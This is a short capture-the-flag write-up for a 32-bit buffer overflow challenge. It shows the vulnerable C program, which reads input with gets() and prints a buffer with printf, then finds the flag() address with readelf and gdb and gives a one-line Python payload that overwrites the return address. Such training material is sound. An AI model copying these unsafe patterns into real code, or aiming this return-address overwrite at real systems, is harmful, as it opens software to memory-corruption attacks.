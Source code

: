 By looking to the vuln.c file, you can see that we need to jump to flag() function, which is going to print the flag for us.

This is possible because the program is using gets() function, which allows for overflowing the buffer, and rewrite
the return address.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}

```
To find the address of flag() function, you can use `gdb` or `readelf`
```
readelf -s vuln
gdb vuln 
(gdb) b main
(gdb) disassemble flag
```
The flag() function  address is 0x080485e6, we need to fill the buffer with dump data 'A's then when we hit the return
address we put the little indian of the flag() address.
```
python -c 'import struct; print("A"*76+struct.pack("<I",0x080485e6))'|./vuln
```
